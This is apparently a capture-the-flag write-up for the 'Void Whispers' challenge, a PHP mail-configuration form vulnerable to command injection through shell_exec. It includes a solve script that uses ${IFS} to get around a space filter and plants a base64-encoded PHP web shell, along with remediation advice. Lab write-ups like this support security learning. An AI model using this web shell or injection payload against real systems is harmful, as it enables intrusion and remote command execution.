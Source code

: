 # Void Whispers
- difficulty: very easy
- vulnerabilities: command injection

## App Review
The app presents a form to the user that appears to be used for configuration of a backend email system.  The form has 4 fields: From Name, From Email, Sendmail PATH, and Mail Program.

## Code Review
As always, I'll start by checking to see what happens to flag.  Looking at the Dockerfile I can see that the flag.txt file is copied into the root dir.  Since there are no other references to flag.txt within the source code of the app, I know that I'm looking for an arbitrary file read or command/code execution vulnerability.

The initial App Review showed a POST of 2 very interesting fields: Sendmail PATH and Mail Program.  I find these fields interesting because they reference something on the linux filesystem so I initially look at how the user input from these fields is being handled.  One of the fields, sendMailPath, is being validated to make sure the path exists and if it does exist then it is being written to a config.json file with the user input from the other 3 fields.  However, the mechansim for validating the sendMailPath user input is insecure and vulnerable to command injection.

```
// filename: controllers/IndexController.php

if (preg_match('/\s/', $sendMailPath)) {
  return $router->jsonify(['message' => 'Sendmail path should not contain spaces!', 'status' => 'danger'], 400);
}

$whichOutput = shell_exec("which $sendMailPath");
if (empty($whichOutput)) {
  return $router->jsonify(['message' => 'Binary does not exist!', 'status' => 'danger'], 400);
}
```
The code does attempt to do some sanitization by rejecting any input that contains spaces, however, this is inadequate as an attacker can use ```${IFS}``` as a substitue.  Since the sendMailPath is being used in a shell command with inadequate sanitization, an attacker may inject into the string to execute their own shell commands.

## Attack
Since the web app does not provide any output from the command, the vector here is to upload a php web shell to the /www directory then call it with a GET request.  Another approach is to read the contents of the file and send it back to a host that the attacker controls.  For the sake of codability, I'll use the first approach.  It's easiest to see how this works by referencing the solve.py script.
```
php = '<?php system($_GET["cmd"]); ?>'
cmd = f'echo \'{php}\' > /www/rev.php'
cmd = base64.b64encode(cmd.encode()).decode()

data = {
    'from': 'meowName',
    'email': 'meow@email.com',
    'sendMailPath': f'/usr/sbin/sendmail & echo {cmd}|base64 -d|sh',
    'mailProgram': 'sendmail',
}
```
As a result, the shell command that gets executed via ```shell_exec``` will being:
```
/usr/sbin/sendmail${IFS}&${IFS}echo${IFS}ZWNobyAnPD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+JyA+IC93d3cvcmV2LnBocA==|base64${IFS}-d|sh
```

## Remediation
The best thing to do here is to NEVER let user input get into the ```shell_exec``` command.  In this case, the machanism should probably just be removed and replaced.  For example, instead of allowing the user to input any mail program, they can select from a few predefined options.  The path to the mailProgram can then be hardcoded into the backend.  This way ```shell_exec``` is no longer needed.